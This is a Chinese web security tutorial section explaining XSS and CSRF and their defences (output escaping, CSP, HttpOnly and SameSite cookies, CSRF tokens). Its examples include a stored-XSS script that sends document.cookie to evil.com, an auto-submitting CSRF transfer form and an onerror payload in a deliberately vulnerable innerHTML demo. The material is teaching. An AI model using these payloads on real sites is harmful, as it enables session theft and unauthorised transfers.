

# 7.1 XSS、CSRF基础防护

Web 应用面向公网，安全漏洞会被恶意利用。本节解决的问题是：两类最常见的 Web 攻击——XSS（跨站脚本攻击）与 CSRF（跨站请求伪造）——是如何发生的，有哪些子类型，以及如何通过输入过滤、输出编码、Token、Cookie 属性等手段进行防护。

## XSS 跨站脚本攻击

> [!definition] XSS
> XSS（Cross-Site Scripting，跨站脚本攻击）指攻击者将恶意脚本注入到网页中，在其他用户的浏览器中执行。XSS 之所以缩写为 XSS 而非 CSS，是为了与层叠样式表 CSS 区分。攻击者借助 XSS 可窃取用户 Cookie、劫持会话、篡改页面、传播蠕虫等。

### XSS 三种类型

| 类型 | 原理 | 触发方式 | 危害 |
| --- | --- | --- | --- |
| 存储型 XSS | 恶意脚本存入数据库，他人访问时被读取并执行 | 攻击者提交评论含 `<script>`，所有访问该评论的用户均中招 | 最广，持久化 |
| 反射型 XSS | 恶意脚本在 URL 参数中，服务器将其反射回页面 | 诱导用户点击恶意链接 `?q=<script>` | 需诱导点击 |
| DOM 型 XSS | 纯前端漏洞，JS 读取不可信数据写入 DOM | `innerHTML = location.hash`，无服务端参与 | 与服务端无关 |



### XSS 攻击示例

```html
<!-- 存储型：攻击者在评论区提交 -->
<script>
    // 偷取用户 Cookie 发送到攻击者服务器
    new Image().src = "https://evil.com/steal?c=" + document.cookie;
</script>

<!-- 反射型：恶意链接 -->
https://example.com/search?q=<script>alert(document.cookie)</script>

<!-- DOM 型：前端漏洞代码 -->
<div id="output"></div>
<script>
    // 危险！直接把 URL 参数写入 innerHTML
    document.getElementById("output").innerHTML = location.hash.slice(1);
</script>
```

### XSS 防护手段

> [!warning] XSS 防护核心原则
> **永远不要信任用户输入**。XSS 防护是多层次的：输入过滤 + 输出编码 + CSP + HttpOnly Cookie + 安全的 DOM API。

1. **输入过滤与校验**：对用户提交的内容做白名单校验（如只允许特定 HTML 标签），拒绝可疑字符。
2. **输出编码**：在把用户数据写入页面前，按上下文转义。
3. **CSP（内容安全策略）**：通过响应头限制脚本来源，阻止内联脚本与外部恶意脚本执行。
4. **HttpOnly Cookie**：会话 Cookie 设 `HttpOnly`，JS 无法读取，即使 XSS 也偷不到。
5. **安全的 DOM API**：渲染用户数据用 `textContent` 而非 `innerHTML`。

```javascript
// 输出编码：转义 HTML 特殊字符
function escapeHtml(str) {
    if (typeof str !== "string") return "";
    return str
        .replace(/&/g, "&amp;")
        .replace(/</g, "&lt;")
        .replace(/>/g, "&gt;")
        .replace(/"/g, "&quot;")
        .replace(/'/g, "&#39;");
}

// ❌ 危险：直接拼 innerHTML
document.getElementById("output").innerHTML = userInput;

// ✅ 安全：转义后再写入
document.getElementById("output").innerHTML = escapeHtml(userInput);

// ✅ 更安全：用 textContent，不解析 HTML
document.getElementById("output").textContent = userInput;
```

### CSP 内容安全策略

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.example.com; style-src 'self' 'unsafe-inline'; img-src *; connect-src 'self' https://api.example.com
```

| 指令 | 作用 |
| --- | --- |
| `default-src` | 默认资源加载策略 |
| `script-src` | 允许的脚本来源 |
| `style-src` | 允许的样式来源 |
| `img-src` | 允许的图片来源 |
| `connect-src` | 允许的 AJAX/WebSocket 目标 |

> [!tip] CSP 的核心价值
> CSP 通过白名单限制脚本来源，即使页面存在 XSS 漏洞，攻击者注入的 `<script>` 或外链脚本也会被浏览器拒绝执行，是深度防御的重要一环。

## CSRF 跨站请求伪造

> [!definition] CSRF
> CSRF（Cross-Site Request Forgery，跨站请求伪造）指攻击者诱导已登录用户访问恶意页面，该页面在用户不知情下向目标站点发送请求，浏览器自动携带用户的登录 Cookie，从而以用户身份执行非预期操作（如转账、改密码）。

### CSRF 攻击流程

```mermaid
sequenceDiagram
    participant U as 受害者
    participant B as 浏览器
    participant A as 银行站点A
    participant E as 恶意站点E

    U->>B: 1. 登录银行A，获得会话Cookie
    B->>A: 2. 后续请求自动带Cookie
    U->>B: 3. 被诱导访问恶意站点E
    B->>E: 4. 请求E页面
    E-->>B: 5. 返回含隐藏表单的页面<br/>&lt;form action=A/transfer method=POST&gt;
    B->>A: 6. 自动提交表单，携带A的Cookie
    Note over A: 7. 服务器以为是用户操作<br/>执行转账
    A-->>B: 8. 转账完成
```

### CSRF 攻击示例

```html
<!-- 恶意站点 E 的页面，受害者访问后自动转账 -->
<!DOCTYPE html>
<html>
<body>
    <!-- 隐藏表单，自动提交到银行站点 -->
    <form id="f" action="https://bank.com/transfer" method="POST">
        <input type="hidden" name="to" value="attacker">
        <input type="hidden" name="amount" value="10000">
    </form>
    <script>document.getElementById("f").submit();</script>
</body>
</html>
```

### CSRF 防护手段

1. **CSRF Token**：服务器在表单中下发随机 Token，提交时校验，恶意站点无法获取该 Token。
2. **Referer 验证**：检查请求头 `Referer` 是否来自合法源。
3. **SameSite Cookie**：设 `SameSite=Lax` 或 `Strict`，浏览器跨站请求不携带 Cookie。

```javascript
// 后端生成与校验 CSRF Token（Node.js + Express 示例）
const crypto = require("crypto");

// 生成 Token 并写入页面
app.get("/form", (req, res) => {
    const token = crypto.randomBytes(16).toString("hex");
    req.session.csrfToken = token;
    res.send(`
        <form action="/submit" method="POST">
            <input type="hidden" name="_csrf" value="${token}">
            <input type="text" name="data">
            <button type="submit">提交</button>
        </form>
    `);
});

// 校验 Token
app.post("/submit", (req, res) => {
    if (req.body._csrf !== req.session.csrfToken) {
        return res.status(403).send("CSRF 校验失败");
    }
    res.send("提交成功");
});
```

```http
Set-Cookie: sid=abc; SameSite=Lax; Secure; HttpOnly
```

| SameSite 取值 | 行为 |
| --- | --- |
| `Strict` | 完全不跨站携带，最严格（可能影响体验） |
| `Lax` | 顶层导航的 GET 请求带，其他不带（默认值，平衡安全与体验） |
| `None` | 允许跨站携带（需配合 `Secure`） |

## XSS vs CSRF 区别

| 维度 | XSS | CSRF |
| --- | --- | --- |
| 本质 | 注入恶意脚本**执行** | 冒用身份**发请求** |
| 是否需登录 | 不一定 | 必须（依赖登录态） |
| 攻击者能否读响应 | 能（在受害者上下文执行 JS） | 不能（只能触发请求） |
| 依赖漏洞 | 站点存在注入漏洞 | 站点仅靠 Cookie 识别身份 |
| 防护核心 | 输出编码、CSP、HttpOnly | CSRF Token、SameSite Cookie |
| 关系 | XSS 可绕过 CSRF 防护（偷 Token） | CSRF 不依赖 XSS |

> [!note] XSS 与 CSRF 的关联
> XSS 危害大于 CSRF：一旦发生 XSS，攻击者可在受害者上下文执行任意 JS，能读取 CSRF Token、发起请求，从而绕过 CSRF 防护。因此**先防 XSS 再防 CSRF**，安全防护是分层的。

## 可运行代码示例

以下 HTML 演示 XSS 漏洞与防护对比，保存为 `.html` 文件即可在浏览器中运行：

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>XSS 防护演示</title>
    <style>
        body { font-family: "Microsoft YaHei", sans-serif; padding: 30px; max-width: 600px; }
        textarea { width: 100%; height: 80px; padding: 8px; border: 1px solid #ccc;
                   border-radius: 4px; box-sizing: border-box; font-family: Consolas, monospace; }
        button { padding: 8px 16px; margin: 8px 8px 8px 0; border: none;
                 border-radius: 4px; cursor: pointer; color: #fff; }
        .danger { background: #f44336; }
        .safe { background: #4CAF50; }
        .result { padding: 12px; margin-top: 12px; border: 1px dashed #ccc; border-radius: 4px; }
        label { display: block; margin-top: 12px; font-weight: bold; }
    </style>
</head>
<body>
    <h2>XSS 防护演示</h2>
    <label>模拟用户输入（试试 <code>&lt;img src=x onerror=alert('XSS')&gt;</code>）：</label>
    <textarea id="input">&lt;img src=x onerror=alert('XSS')&gt;你好</textarea>
    <p>
        <button class="danger" onclick="renderUnsafe()">❌ 危险：直接 innerHTML</button>
        <button class="safe" onclick="renderEscape()">✅ 转义后 innerHTML</button>
        <button class="safe" onclick="renderText()">✅ 用 textContent</button>
    </p>
    <div class="result" id="output">结果将渲染在此...</div>

    <script>
        const input = document.getElementById("input");
        const output = document.getElementById("output");

        // ❌ 危险：直接 innerHTML，会执行恶意脚本
        function renderUnsafe() {
            output.innerHTML = input.value;
        }

        // ✅ 转义后再 innerHTML
        function escapeHtml(str) {
            return str
                .replace(/&/g, "&amp;")
                .replace(/</g, "&lt;")
                .replace(/>/g, "&gt;")
                .replace(/"/g, "&quot;")
                .replace(/'/g, "&#39;");
        }
        function renderEscape() {
            output.innerHTML = escapeHtml(input.value);
        }

        // ✅ 最安全：textContent 不解析 HTML
        function renderText() {
            output.textContent = input.value;
        }
    </script>
</body>
</html>
```

## 小结

XSS 是注入恶意脚本在受害者浏览器执行，分存储型、反射型、DOM 型三种，防护靠输入过滤、输出编码、CSP、HttpOnly Cookie 与安全 DOM API（`textContent` 优于 `innerHTML`）。CSRF 是冒用用户身份发送请求，依赖浏览器自动携带 Cookie，防护靠 CSRF Token、Referer 验证、SameSite Cookie。XSS 危害大于 CSRF——攻击者可在受害者上下文执行任意 JS、绕过 CSRF 防护，因此安全防护应分层并优先防 XSS。

## 关联

- 上一级：[[MOC - 第7章]]
- 下一节：[[7.2 Web开发规范]]
- 关联概念：[[4.3 DOM操作、事件机制]]（innerHTML 与 textContent 的差异）、[[5.3 Cookie、Session基础]]（Cookie 安全属性）、[[6.3 接口通信基础]]（CORS 与跨域）
